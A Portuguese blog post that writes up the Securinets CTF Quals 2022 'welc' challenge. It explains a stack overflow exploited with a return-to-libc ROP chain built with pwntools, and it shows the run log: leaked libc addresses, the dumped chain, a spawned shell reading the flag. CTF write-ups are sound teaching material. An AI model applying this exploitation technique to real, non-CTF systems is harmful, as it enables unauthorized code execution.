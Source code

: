 ```yaml
---
layout: post
title: Welcome - [Securinets CTF Quals 2022] - Return to libc com pwntools
date: 2022-04-11 20:53
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Sem Categoria, stack overflow, return-to-libc, rop, exploits]
---
```

**Link para o challenge: https://github.com/brerodrigues/exploit_drafts/tree/main/ctfing/Securinets_CTF_Quals_2022/1_welc**

Um clássico stack overflow. O binário não tem **stack canaries** nem **PIE**, mas está com **NX** ligado, então nada de shellcode. Por ter vindo uma libc junto do challenge, um ataque **return-to-libc** é facilitado e possível mesmo que o servidor esteja com **ASLR** habilitado. Sabendo o que tenho e o que posso fazer foi só questão de pôr em prática:

* Primeiro obtenho um leak do endereço de puts na libc. Consigo fazer isso com facilidade porque sem PIE no binário posso utilizar todos os endereços do mesmo. Depois de obter o endereço de puts, reinicio o binário finalizando minha primeira rop chain com o endereço de \_start. 
* Com o leak, basta usar um pouco de matemática para calcular on-demand o endereço de qualquer função da libc e montar uma segunda rop chain para executar **system('/bin/sh')**, obter a shell e ler a flag.

Esse resumo pode ter parecido grego para o não iniciado, então para os novinhos recomendo o liveoverflow explicando que porra é ret2libc: https://www.youtube.com/watch?v=m17mV24TgwY

A execução e o código do exploit completo podem ser observados abaixo. Destaco a facilidade que é utilizar a pwntools para criar rop chains (e vários outros processos repetitivos manuais necessários para escrever um exploit, vale a pena aprender e dominar essa porra) e demonstro no código essa diferença. Tentei comentar o que achei interessante para complementar a postagem.

Executando:
```
b@vbm ~/c/s/pwn1> python3 xpl.py
[+] Opening connection to 20.216.39.14 on port 1237: Done
[*] '/home/b/ctf/securinets/pwn1/welc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './welc'
Zied likes degla b zbib ! what about you ?
[*] '/home/b/ctf/securinets/pwn1/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Leaked puts 0x7f4b74d56450
System address 0x7f4b74d242c0
/bin/sh address 0x7f4b74e865bd
0x0000:         0x40101a ret
0x0008:         0x401283 pop rdi; ret
0x0010:              0x0 [arg0] rdi = 0
0x0018:         0x401281 pop rsi; pop r15; ret
0x0020:              0x0 [arg1] rsi = 0
0x0028:      b'kaaalaaa' <pad r15>
0x0030:   0x7f4b74de6980
0x0038:         0x401283 pop rdi; ret
0x0040:   0x7f4b74e865bd [arg0] rdi = 139962060662205
0x0048:   0x7f4b74d242c0
Press enter to pwn...
Zied likes degla b zbib ! what about you ?
Enjoy the shell
[*] Switching to interactive mode
$ ls
flag.txt
welc
ynetd
$ cat flag.txt
Securinets{5d91d2e01b854fd457c1d8b592a19b38af6b4a33c6362b7d}
```

E o exploit:
<script src="https://gist.github.com/brerodrigues/9161ae24483d0e2f78aef8e6318088b1.js"></script>
